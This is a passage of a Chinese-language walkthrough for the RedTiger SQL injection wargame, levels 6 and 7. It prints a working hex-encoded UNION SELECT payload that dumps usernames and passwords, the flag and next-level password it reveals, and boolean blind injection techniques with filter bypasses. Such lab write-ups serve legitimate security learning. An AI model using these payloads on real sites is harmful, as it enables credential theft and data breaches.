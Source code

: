 	Username: 	2
	Email: 	4

That's ez! 接下来按照要求输出即可。

```
# ' union select 1,username,3,password,5 from level6_users where status=1#   =>  0x2720756e696f6e2073656c65637420312c757365726e616d652c332c70617373776f72642c352066726f6d206c6576656c365f7573657273207768657265207374617475733d3123

http://redtiger.labs.overthewire.org/level6.php?user=0 union select 1,0x2720756e696f6e2073656c65637420312c757365726e616d652c332c70617373776f72642c352066726f6d206c6576656c365f7573657273207768657265207374617475733d3123,3,4,5%23
```

> Username: 	admin
> Email: 	m0nsterk1ll
> You can raise your wechall.net score with this flag: 074113b268d87dea21cc839954dec932
> The password for the next level is: keep_in_mind_im_not_blind

## level 7


正常输入 `google` 会得到以下信息。

	Google: The browser is the computer
	SAN FRANCISCO--Google spent Wednesday morning trying to get developers excited about the next generation of Web t...

输入 `google'` 会得到很详细的sql语句报错。
```
SELECT news.*,text.text,text.title FROM level7_news news, level7_texts text WHERE text.id = news.id AND (text.text LIKE '%google'%' OR text.title LIKE '%google'%')
```

想办法闭合google前面的 `'%` ，也把后面给注释掉。于是输入 `%')--+`，但是仍然报错。网上通过注释来解题的方法已经不好使了。

不用注释掉后面，那么可以把后面的 `%'` 给闭合掉。输入 `%' and '%'='` 即可得到正常页面。

那么可以加入 `%' and 1=1 and '%'='`

此题用布尔型盲注。


```
SELECT news.*,text.text,text.title FROM level7_news news, level7_texts text WHERE text.id = news.id AND (text.text LIKE '%google%' and 1=1 and '%'=%' OR text.title LIKE '%google%' and 1=1 and '%'=%')
```

除了过滤给出的函数外，还过滤了常用的注释符。

对于过滤了字符串截取函数 `substr` , `left` 的话，可以使用 `locate` 来进行代替。还需要通过 `collate latin1_general_cs` 或者 `latin1_bin` 来判断字符的大小写。

```
LEFT(str,len)
Returns the leftmost len characters from the string str, or NULL if any argument is NULL.


SUBSTR(str,pos), SUBSTR(str FROM pos), SUBSTR(str,pos,len), SUBSTR(str FROM pos FOR len) 
SUBSTR() is a synonym for SUBSTRING().

SUBSTRING(str,pos), SUBSTRING(str FROM pos), SUBSTRING(str,pos,len),SUBSTRING(str FROM pos FOR len)
The forms without a len argument return a substring from string str starting at position pos. The forms with a len argument return a substring len characters long from string str, starting at position pos. The forms that use FROM are standard SQL syntax. It is also possible to use a negative value for pos. In this case, the beginning of the substring is pos characters from the end of the string, rather than the beginning. A negative value may be used for pos in any of the forms of this function. 

LOCATE(substr,str), LOCATE(substr,str,pos)
```